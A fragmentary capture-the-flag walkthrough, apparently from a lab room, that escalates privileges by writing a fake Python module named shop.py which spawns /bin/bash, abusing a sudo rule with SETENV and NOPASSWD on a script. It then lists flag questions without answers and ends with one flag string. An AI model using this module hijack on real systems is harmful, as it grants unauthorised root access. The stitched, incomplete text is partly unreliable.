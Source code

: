 On running we get an error because there is no python module named `shop`. What we can do is create a python module in the same directory where the script is and in it spawn a shell.

echo 'import os;os.system("/bin/bash")'  > shop.py


(jordan) SETENV: NOPASSWD: /opt/scripts/Gun-Shop.py


### What is ken's flag?

### What is sean's flag?

### What is penelope's flag?

### What is maya's flag?

### What is robert's Passphrase?

### What is user.txt?

### What is root.txt?


mission28{03556f8ca983ef4dc26d2055aef9770f}s